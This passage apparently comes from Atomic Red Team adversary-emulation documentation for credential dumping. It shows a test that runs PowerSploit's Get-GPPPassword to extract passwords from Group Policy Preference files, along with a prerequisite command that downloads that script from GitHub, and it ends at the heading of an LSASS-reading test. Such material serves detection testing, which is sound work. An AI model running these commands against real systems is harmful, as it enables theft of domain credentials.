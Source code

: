 Successful test execution will either display the credentials found in the GPP files or indicate "No preference files
found".

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| gpp_script_path | Path to the Get-GPPPassword PowerShell Script | Path | PathToAtomicsFolder&#92;T1003&#92;src&#92;Get-GPPPassword.ps1|
| gpp_script_url | URL of the Get-GPPPassword PowerShell Script | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/87630cac639f29c2adcb163f661f02890adf4bdd/Exfiltration/Get-GPPPassword.ps1|

#### Attack Commands: Run with `powershell`!

```powershell
. #{gpp_script_path}
Get-GPPPassword -Verbose
```

#### Dependencies:  Run with `powershell`!

##### Description: Get-GPPPassword PowerShell Script must exist at #{gpp_script_path}

##### Check Prereq Commands:

```powershell
if(Test-Path "#{gpp_script_path}") {exit 0 } else {exit 1 } 
```

##### Get Prereq Commands:

```powershell
New-Item -ItemType Directory (Split-Path "#{gpp_script_path}") -Force | Out-Null
Invoke-WebRequest #{gpp_script_url} -OutFile "#{gpp_script_path}"
```

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>

## Atomic Test #15 - LSASS read with pypykatz
